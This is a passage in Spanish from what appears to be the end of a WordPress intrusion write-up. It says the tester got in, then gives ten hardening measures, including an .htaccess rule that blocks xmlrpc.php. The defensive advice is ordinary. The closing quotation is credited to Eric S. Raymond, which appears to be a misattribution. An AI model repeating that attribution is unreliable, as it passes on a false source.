



Y como podemos ver, estamos dentro.

== ¿Cómo prevenir?

=== WordPress

WordPress al ser muy amplio, tiene muchas formas de mitigarlo, por lo que vamos a ver las más esenciales.

==== 1. Mantener WordPress, plugins y temas actualizados

WordPress es un software que se mantiene y actualiza con regularidad. Por defecto, WordPress instala automáticamente actualizaciones menores. Pero las versiones principales, debe iniciarse manualmente la actualización.

WordPress también incluye miles de plugins y temas que puedes instalar en tu sitio web. El mantenimiento de estos plugins y temas corre a cargo de desarrolladores externos, que también lanzan actualizaciones con regularidad.

==== 2. Utilizar contraseñas fuertes y únicas

Como ya hemos visto los intentos de pirateo de WordPress más comunes utilizan contraseñas robadas. Sin embargo, se puede dificultar utilizando contraseñas más seguras y únicas para el sitio web. Y no solo en WordPress sino en FTP, bases de datos, correos electrónicos asociados, etc. También se puede usar 2FA y gestores de contraseñas como Keepass.

==== 3. Limitar los intentos de inicio de sesión

Se puede restringir la cantidad de intentos fallidos de acceso para prevenir ataques de fuerza bruta. Plugins como https://wordpress.org/plugins/limit-login-attempts-reloaded/[Limit Login Attempts Reloaded] pueden ser muy utilies para esta tarea.

==== 4. Desactivar XML-RPC si no es necesario

XML-RPC es una API del núcleo de WordPress que ayuda a conectar tu sitio WordPress con aplicaciones web y móviles. Está activada / activa por defecto desde WordPress 3.5. Si esta API no se utiliza es muy recomendable desactivarlo. Existen varias formas, pero modificando el .htaccess es la más recomendable al no usar tantos recursos. Deberemos encontrar el archivo .htaccess y poner el siguiente código:

[source,text]
----
# Block WordPress xmlrpc.php requests
<Files xmlrpc.php>
order deny,allow
 deny from all
allow from 123.123.123.123
</Files>
----

Otra forma es usando el plugin  https://wordpress.org/plugins/disable-xml-rpc-api/[Disable XML-RPC-API].

==== 5. Instalar un firewall de aplicaciones web (WAF)

Cómo ya hemos visto en otras ocasiones un WAF es muy útil, pero no debemos confiar toda la seguridad a este, ya que existen formas de baipasearlo.

==== 6. Realizar copias de seguridad periódicas

Otra de las cosas que hemos visto durante el escaneo es la falta de backups, por lo que es recomendable realizar periodicamente estas copias de seguridad, ya que en caso de ransomware puede no afectarnos tanto, aunque depende de la metodología que se siga. Hay plugins como UpdraftPlus o BlogVault y almacenan las copias en ubicaciones externas como Dropbox o Amazon S3.

==== 7. Cambiar el prefijo de la base de datos

Modificar el prefijo por defecto (wp_) de las tablas de la base de datos dificulta los ataques automatizados que buscan estructuras estándar.

==== 8. Desactivar la edición de archivos desde el panel de administración

Esto previene que usuarios con acceso al panel modifiquen archivos críticos directamente desde el navegador.

==== 9. Proteger el archivo .htaccess y otros archivos sensibles

Es necesario restringir el acceso a archivos como .htaccess, wp-config.php y readme.html para evitar que se exponga información sensible.

==== 10. Utilizar un proveedor de alojamiento seguro

Existen servicios de hosting que ofrezcan medidas de seguridad robustas, como escaneos automáticos de malware, certificados SSL y soporte para actualizaciones automáticas.

En caso de querer saber más sobre cómo volver más seguro entornos de WordPress vease -> https://www.wpbeginner.com/es/wordpress-security/[Securizar WordPress].

----
"Si tu empresa gasta más en café que en seguridad TI, serás hackeado. Es más, merecerás ser hackeado."

— Eric S. Raymond
----